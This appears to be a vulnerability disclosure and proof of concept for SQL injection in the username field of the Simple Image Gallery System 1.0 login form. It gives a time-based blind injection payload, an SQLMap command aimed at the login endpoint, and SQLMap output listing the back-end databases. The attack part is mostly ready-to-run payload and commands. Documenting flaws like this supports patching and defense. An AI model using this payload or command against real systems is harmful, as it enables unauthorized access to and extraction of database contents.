


## Description
The Simple Image Gallery System 1.0 application is vulnerable to SQL injection through the "username" parameter in the authentication form.

## Proof of concept
Use the following payload in the *username* field and type any password.

#### Payload
```
'oR sLEeP(10);#
```

#### PoC from the web browser


## Exploitation
Once it is evident that the loading of the site takes *10 seconds*, we can execute the following command with the *SQLMap* tool:

#### SQLMap command
```bash
 sqlmap -u "http://[IP/HOST]:PORT/gallery/classes/Login.php?f=login" --data "username=admin&password=123456" --dbs --batch  
```
```
<-- SNIP -->  
 Parameter: username (POST)  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: username=admin' AND (SELECT 6178 FROM (SELECT(SLEEP(5)))VfMt) AND 'YJYU'='YJYU&password=123456  
 ---  
 [INFO] the back-end DBMS is MySQL  
 web server operating system: Linux Ubuntu 18.04 (bionic)  
 web application technology: Apache 2.4.29  
 back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)  
 [INFO] fetching database names  
 [INFO] fetching number of databases  
 [INFO] resumed: 2  
 [INFO] resumed: gallery_db  
 [INFO] resumed: information_schema  
 available databases [2]:  
 [*] gallery_db  
 [*] information_schema
```

#### Exploitation with SQLMap tool

